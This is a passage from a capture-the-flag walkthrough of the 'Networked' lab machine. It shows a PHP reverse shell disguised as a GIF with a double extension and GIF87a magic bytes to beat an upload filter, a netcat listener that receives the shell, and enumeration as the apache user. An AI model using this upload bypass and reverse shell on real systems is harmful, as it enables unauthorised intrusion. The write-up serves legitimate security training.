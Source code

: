 ## Gaining Access

The plan to gain access to the target is as follows:

* Copy or create a PHP reverse shell script. I am using the following file which is included in Kali, /usr/share/webshells/php/php-reverse-shell.php. You could also download it from pentestmonkey. Modify the file to include our IP and the port for the reverse shell to be received on. I also removed most of the comments to reduce the size, although this isn't really necessary in this case.
* To bypass the file extension check, save the file as "shell.php.gif" for example.
* To bypass the mime type check, we need to add a magic byte for an allowed mime type to the beginning of the shell script. For this isntance, I added "GIF87a" to the beginning of the file.&#x20;

```
└─$ head -7 shell.php.gif
GIF87a
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.7';  // CHANGE THIS
$port = 8888;       // CHANGE THIS

└─$ file shell.php.gif    
shell.php.gif: GIF image data, version 87a, 15370 x 28735

```

Let's start a netcat listener, and upload the file. Finally, refresh the photos.php page to get the shell.

```
└─$ nc -nvlp 8888
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:51150.
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:53:37 up  7:01,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 

```

## Enumeration as "apache"

Let's get the basic system info first as follows:

```
sh-4.2$ uname -a; cat /etc/*-release; ss -lntp;
uname -a; cat /etc/*-release; ss -lntp;
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
CentOS Linux release 7.6.1810 (Core) 
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
```